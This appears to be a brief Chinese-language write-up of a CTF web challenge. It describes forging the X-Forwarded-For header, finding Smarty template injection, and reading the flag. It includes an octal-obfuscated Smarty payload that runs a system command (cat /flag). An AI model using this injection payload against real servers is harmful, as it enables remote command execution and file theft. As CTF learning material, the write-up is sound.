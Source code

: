 题目的意思看起来是先伪造 XFF，伪造了确实可以成功

![xff](xff.png)

题目给了提示是 Smarty，想到 SSTI，用 `{{7*7}}` 发现存在漏洞

![xff](ssti.png)

payload，里面是八进制

```payload
eval:{math equation='("\163\171\163\164\145\155")("\143\141\164\40\57\146\154\141\147")'}
```

![xff](flag.png)